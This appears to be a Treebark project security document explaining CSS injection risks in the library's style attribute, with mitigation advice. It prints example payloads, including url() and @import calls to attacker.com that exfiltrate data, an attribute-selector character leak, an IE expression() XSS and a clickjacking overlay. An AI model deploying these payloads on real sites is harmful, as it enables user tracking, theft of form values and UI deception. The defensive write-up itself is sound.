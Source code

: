 # Security Considerations

## Style Attribute Security Risks

The `style` attribute is currently allowed on all HTML elements in Treebark as a global attribute. While this provides flexibility for styling, there are several security considerations to be aware of:

### Identified Risks

#### 1. CSS Injection via url()
CSS properties that accept URLs (e.g., `background-image`, `background`, `list-style-image`) can be used to:
- **Load external resources** that could track users or exfiltrate data
- **Make cross-origin requests** that could leak information via CSS attribute selectors

**Example:**
```json
{
  "div": {
    "style": "background-image: url(https://attacker.com/track?data=sensitive)",
    "$children": ["Content"]
  }
}
```

#### 2. JavaScript Execution (Legacy Browsers)
While modern browsers block these, older browsers (particularly Internet Explorer) had features that could execute JavaScript through CSS:
- **`expression()`** - IE-specific CSS expression that could run JavaScript
- **`behavior`** property - IE could load and execute HTC (HTML Component) files
- **`-moz-binding`** - Firefox XBL binding that could execute code

**Example:**
```json
{
  "div": {
    "style": "width: expression(alert('XSS'))",
    "$children": ["Content"]
  }
}
```

#### 3. Data Exfiltration
CSS can be used to exfiltrate data through various techniques:
- **Attribute selectors with background images** - Can steal form values, CSRF tokens, etc.
- **Font-face with unicode-range** - Can detect specific characters in text

**Example:**
```css
input[value^="a"] {
  background: url(https://attacker.com/leak?char=a);
}
```

#### 4. UI Redressing
CSS properties like `position`, `z-index`, `opacity`, and `transform` can be used for:
- **Clickjacking** - Overlaying invisible elements over legitimate UI
- **Content hiding** - Hiding warning messages or important information
- **Phishing** - Creating fake login forms over legitimate content

**Example:**
```json
{
  "div": {
    "style": "position: fixed; top: 0; left: 0; z-index: 9999; opacity: 0.01",
    "$children": ["Invisible overlay"]
  }
}
```

#### 5. CSS Imports
The `@import` directive can load external stylesheets, which could:
- Load additional malicious CSS
- Track users
- Potentially bypass Content Security Policy in some configurations

**Example:**
```json
{
  "div": {
    "style": "@import url(https://attacker.com/malicious.css)",
    "$children": ["Content"]
  }
}
```

### Current Behavior

Treebark currently:
- ✅ **Escapes HTML** in interpolated values (prevents `<script>` injection)
- ✅ **Validates tag names** (prevents `<script>` tags)
- ✅ **Validates attribute names** (prevents `onclick`, `onerror`, etc.)
- ❌ **Does NOT sanitize style attribute values**

### Recommendations

For applications using Treebark with user-generated content or untrusted data, consider:

1. **Content Security Policy (CSP)**
   - Use `style-src 'self'` to prevent inline styles
   - Or use `style-src 'unsafe-inline'` with nonces

2. **Input Validation**
   - Validate and sanitize style values before passing to Treebark
   - Use an allowlist of safe CSS properties
   - Block or sanitize `url()` values

3. **Avoid User-Controlled Styles**
   - Don't allow users to directly control style attributes
   - Use predefined CSS classes instead
   - If custom styling is needed, validate against an allowlist

4. **Consider CSS Sanitization**
   - Implement a CSS sanitizer if user-controlled styles are necessary
   - Libraries like [sanitize-css](https://www.npmjs.com/package/sanitize-css) or similar can help
   - Block dangerous properties: `behavior`, `-moz-binding`, `expression`
   - Sanitize `url()` values to allow only data URIs or trusted domains

### Safe Usage Examples

**✅ Safe: Hardcoded styles**
```json
{
  "div": {
    "style": "color: red; font-size: 14px",
    "$children": ["Static content"]
  }
}
```

**✅ Safe: Interpolated safe values**
```json
{
  "div": {
    "style": "color: {{color}}; font-size: {{size}}px",
    "$children": ["Content"]
  }
}
```
With validated data: `{ color: "red", size: 14 }`

**⚠️ Risky: User-controlled full style attribute**
```json
{
  "div": {
    "style": "{{userStyle}}",
    "$children": ["Content"]
  }
}
```
If `userStyle` comes from untrusted input, this could be exploited.

### References

- [OWASP CSS Injection](https://owasp.org/www-community/attacks/CSS_Injection)
- [CSS Injection Attacks](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
- [Scriptless Attacks](http://www.segmentationfault.fr/publications/mario_heiderich_-_scriptless_attacks_cutting_edge_xss.pdf)
